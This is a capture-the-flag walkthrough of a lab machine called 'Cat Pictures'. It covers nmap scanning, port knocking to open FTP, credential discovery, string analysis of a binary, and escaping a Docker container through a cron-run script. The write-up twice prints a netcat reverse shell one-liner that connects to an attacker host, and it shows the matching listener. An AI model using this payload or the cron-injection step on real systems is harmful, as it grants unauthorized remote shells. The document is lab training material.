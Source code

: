 Let's start with the part of getting information about our target, so let's start with Nmap ```nmap catpictures.thm -sV -sC```:

```
PORT STATE SERVICE VERSION
21/tcp filtered ftp
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 37:43:64:80:d3:5a:74:62:81:b7:80:6b:1a:23:d8:4a (RSA)
| 256 53:c6:82:ef:d2:77:33:ef:c1:3d:9c:15:13:54:0e:b2 (ECDSA)
|_ 256 ba:97:c3:23:d4:f2:cc:08:2c:e1:2b:30:06:18:95:41 (ED25519)
4420/tcp open nvm-express?
| fingerprint-strings:
| DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
| INTERNAL SHELL SERVICE
| please note: cd commands do not work at the moment, the developers are fixing it at the moment.
| ctrl-c
| Please enter password:
| Invalid password...
| Connection Closed
| NULL, RPCCheck:
| INTERNAL SHELL SERVICE
| please note: cd commands do not work at the moment, the developers are fixing it at the moment.
| ctrl-c
|_ Please enter password:
8080/tcp open ssl/http-proxy Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.46 (Unix) OpenSSL/1.1.1d PHP/7.3.27
|_http-title: Cat Pictures - Index page
```

When I saw port 21 marked as filtered I tried to connect but had no result. I connected to port 4420 using netcat and found it was an internal shell.

![](1.png)

Now I had port 8080 that her service is HTTP.

![](2.png)

Upon entering the page I noticed a category called "Your first forum" posted by the "user", so I entered that category and clicked on the topic "Post cat pictures here!"

![](3.png)

Seeing the message posted by the user something caught my attention, "Knock knock! Magic numbers: 1111, 2222, 3333, 4444
". I saved this message because it could be a clue and then I Googled "linux knock" and ended up finding a "knockd" (https://www.howtogeek.com/442733/how-to-use-port-knocking- on-linux-and-why-you-shouldnt/).

When reading about it I understood that this is a firewall that allows access to a port when a secret combination is sent (I was thinking it was something related to angels lol). So I figured the secret combination was 1111, 2222, 3333, 4444, so I typed the command ```knock catpictures.thm 1111, 2222, 3333, 4444```

I waited a few seconds and used Nmap again, and that FTP port that was marked as filtered was now open!

![](4.png)

Now that I was able to connect to FTP I tried to log in as an anonymous user and then I managed to log in.

![](5.png)

I downloaded the note.txt file and what was written in it was this message:

```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is <HIDDEN>.
- <HIDDEN>
```

![](6.png)

I saved this password to a file and used it to log into the internal shell (port 4420) and got a success message

![](7.png)

When enumerating the machine I found a file inside the user folder ```/home/<HIDDEN>/runme```. I tried to run it but a message appeared saying "THIS EXECUTABLE DOES NOT WORK UNDER THE INTERNAL SHELL, YOU NEED A REGULAR SHELL."

Upon receiving this message, I made a reverse connection using netcat that I found in /bin, I used this payload:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <HOST> <PORT> >/tmp/f
```

![](8.png)

I ran the binary but it needed a password to get an answer.

![](9.png)

So I sent the binary via netcat to my machine for me to analyze it and get more information from the strings.

![](10.png)

Now just use the ```strings runme``` command and start parsing. While I was analyzing the binary I found the login message and on top of it was a word that I used as a password to access the binary, and actually that was a password.

![](11.png)

![](12.png)

We've received an SSH identification key to log into the machine, so let's copy it to our machine and use it to log in

![](13.png)

Yeeah, we log into the server. But something is wrong, we use a normal user and log in as root, something is wrong. Found out that we are in a Docker container so we need to escape from it.

Enumerating the history of last commands in /root/.bash_history I found a file inside /opt/clean/clean.sh and 2 lines after that we found the nano command being used in /etc/crontab.

![](14.png)

It looks like the clean.sh file is in a routine using crontab, this can be useful to escape the container. Let's add a line into the file with a reverse shell payload and use netcat in our box.

Victim:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <HOST> <PORT> >/tmp/f
```

Attacker:
```
nc -lnvp <PORT>
```

![](15.png)

YEEEEAAAHHH WE CAN GET THE ROOT USER!!!. Now just get the flag and score.

We have finished one more CTF B)
